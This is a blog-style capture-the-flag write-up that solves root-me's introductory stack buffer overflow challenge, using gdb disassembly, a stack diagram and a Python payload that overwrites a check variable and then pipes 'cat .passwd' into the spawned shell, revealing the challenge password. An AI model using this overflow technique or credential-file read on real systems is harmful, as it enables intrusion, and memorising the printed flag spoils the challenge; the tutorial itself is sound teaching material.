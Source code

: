 ```yaml
---
layout: post
title:  "Basic Buffer Overflow's - Chapter 1"
date:   2017-12-26 01:00:00 +0100
categories: [bof]
description: 
image:
  feature: shellcode.jpg
  credit:
  creditlink:
---
```


Still a WIP

Example 1 - Stack buffer overflow basic 1
=======================================
I'll be using the example from [root-me](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-1) to illustrate basic stack corruption.  Since this is a fairly trivial example and introductory, I hope they won't feel any issue with me posting a solution publicly.
```c
#include <stdlib.h>
#include <stdio.h>

/*
gcc -m32 -o ch13 ch13.c -fno-stack-protector
*/


int main()
{

  int var;
  int check = 0x04030201;
  char buf[40];

  fgets(buf,45,stdin);

  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);

  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");

  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     system("/bin/dash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
The actual exploitation of this is fairly trivial.  The fgets function allows us to write 45 bytes of memory into a buffer of size 40.  We won't get any fancy EIP overwrites, but it does allow us to corrupt memory and potentially some of the variables.

Firstly, lets open this in gdb and run a disassembly of the main function.  There are better tools for doing this such as [radare2](https://github.com/radare/radare2), but we'll keep it simple for now.
```gdb
gdb$ disas main
Dump of assembler code for function main:
   0x08048494 <+0>:	push   ebp
   0x08048495 <+1>:	mov    ebp,esp
   0x08048497 <+3>:	and    esp,0xfffffff0
   0x0804849a <+6>:	sub    esp,0x40
   0x0804849d <+9>:	mov    DWORD PTR [esp+0x3c],0x4030201
   0x080484a5 <+17>:	mov    eax,ds:0x804a020
   0x080484aa <+22>:	mov    DWORD PTR [esp+0x8],eax
   0x080484ae <+26>:	mov    DWORD PTR [esp+0x4],0x2d
   0x080484b6 <+34>:	lea    eax,[esp+0x14]
   0x080484ba <+38>:	mov    DWORD PTR [esp],eax
   0x080484bd <+41>:	call   0x8048390 <fgets@plt>
   0x080484c2 <+46>:	mov    eax,0x8048620
   0x080484c7 <+51>:	lea    edx,[esp+0x14]
   0x080484cb <+55>:	mov    DWORD PTR [esp+0x4],edx
   0x080484cf <+59>:	mov    DWORD PTR [esp],eax
   0x080484d2 <+62>:	call   0x8048380 <printf@plt>
   0x080484d7 <+67>:	mov    eax,0x804862c
   0x080484dc <+72>:	mov    edx,DWORD PTR [esp+0x3c]
   0x080484e0 <+76>:	mov    DWORD PTR [esp+0x4],edx
   0x080484e4 <+80>:	mov    DWORD PTR [esp],eax
   0x080484e7 <+83>:	call   0x8048380 <printf@plt>
   0x080484ec <+88>:	cmp    DWORD PTR [esp+0x3c],0x4030201
   0x080484f4 <+96>:	je     0x804850c <main+120>
   0x080484f6 <+98>:	cmp    DWORD PTR [esp+0x3c],0xdeadbeef
   0x080484fe <+106>:	je     0x804850c <main+120>
   0x08048500 <+108>:	mov    DWORD PTR [esp],0x8048638
   0x08048507 <+115>:	call   0x80483a0 <puts@plt>
   0x0804850c <+120>:	cmp    DWORD PTR [esp+0x3c],0xdeadbeef
   0x08048514 <+128>:	jne    0x804853a <main+166>
   0x08048516 <+130>:	mov    DWORD PTR [esp],0x8048654
   0x0804851d <+137>:	call   0x80483a0 <puts@plt>
   0x08048522 <+142>:	mov    DWORD PTR [esp],0x804867e
   0x08048529 <+149>:	call   0x80483b0 <system@plt>
   0x0804852e <+154>:	mov    DWORD PTR [esp],0x8048688
   0x08048535 <+161>:	call   0x80483a0 <puts@plt>
   0x0804853a <+166>:	mov    eax,0x0
   0x0804853f <+171>:	leave
   0x08048540 <+172>:	ret
End of assembler dump.
```

So lets break this down and look at the parts where the buffer, and variables are placed onto the stack
```
   0x0804849d <+9>:	mov    DWORD PTR [esp+0x3c],0x4030201
```

Here our `check` variable is placed onto the stack at `esp+60`.  I will just convert arbitrarily between decimal and hexadecimal depending on the convenience.

```gdb
   0x080484a5 <+17>:	mov    eax,ds:0x804a020
   0x080484aa <+22>:	mov    DWORD PTR [esp+0x8],eax
   0x080484ae <+26>:	mov    DWORD PTR [esp+0x4],0x2d
   0x080484b6 <+34>:	lea    eax,[esp+0x14]
   0x080484ba <+38>:	mov    DWORD PTR [esp],eax
   0x080484bd <+41>:	call   0x8048390 <fgets@plt>
```
Here, the variables are popped onto the stack that will from the arguments being sent to the fgets function.  In 32-bit systems a function call takes it's arguments off the top of the stack so, in this case I'll try and convert the assembly into raw english step-by-step.

```gdb
mov    eax,ds:0x804a020 ; Place the value 0x804a020 into the eax register
mov    DWORD PTR [esp+0x8],eax  ; Take the value in the eax register, 0x804a020 , and place it at the memory location esp+0x8.
mov    DWORD PTR [esp+0x4],0x2d ; Take the value 0x2d, and place it at the memory location esp+0x4
lea    eax,[esp+0x14] ; Calculate the result of esp+0x14 and place it in the eax register
mov    DWORD PTR [esp],eax ; Take this result of esp+0x14 and place it at the location in memory denoted by esp.
```

So in effect we've placed at memory locations, esp, esp+0x4 and esp+0x8, three different values:
```
 -------------------
|     esp + 0x8     | <---- 0x804a020
 -------------------
|     esp + 0x4     | <---- 0x2d
 -------------------
|        esp        | <---- esp+0x14
 -------------------
```

Right after these operations take place, the `fgets` function is called.  These three values we've just placed on the stack as above are the arguments to the function `fgets` as in the C code.
```c
fgets(buf,45,stdin);
```

So `0x804a020` is the location of the stdin handle, `0x2d` is just 45 and `esp+0x14` will be where our buffer is located on the stack.

We've established earlier that our check variable is located at `esp+60` and since our buffer is at `esp+20`, if we place 44 bytes into fgets, the first 40 will fill the buffer, whilst the next 4 will overwrite the check variable.  Lets test this out quickly.  We'll use the following code to generate a file:
```bash
python -c 'print "A"*44'`> /tmp/overflow
```

We then pipe this through gdb into our program and we get:
```gdb
gdb$ run < /tmp/overflow
Starting program: /challenge/app-systeme/ch13/ch13 < /tmp/overflow

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[check] 0x41414141

You are on the right way!
[Inferior 1 (process 27133) exited normally]
--------------------------------------------------------------------------[regs]
  EAX:Error while running hook_stop:
No registers.
gdb$
```

So, we overwrote the check variable with our buffer, as 0x41 is the hex code for ascii 'A' so 0x41414141 is equivalent to `AAAA`.   To get our shell spawned, we need to overwrite our variable with `0xdeadbeef`, so we just write a file containing `A*40` followed by the bytes for 0xdeadbeef.  Code of the following form achieves this:

```python
import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef)
```
We run this and pipe it into our binary, and while we get a shell it isn't returned to us as interactive. (There was ways around this). 
```bash
app-systeme-ch13@challenge02:~$ python -c 'import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef);' | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
Shell closed! Bye.
```
We'll just pipe in another command to cat the .passwd file and we're returned with our password which is read by the dash command.

```bash
app-systeme-ch13@challenge02:~$ (python -c 'import struct;  print "A"*40 + struct.pack("<L", 0xdeadbeef)';echo cat .passwd) | ./ch13

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ 
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
1w4ntm0r3pr0np1s
Shell closed! Bye.
```

So to summarise, via an overflow, and an understanding of the stack, we've effectively corrupted and overwritten a stack variable via an overflow.
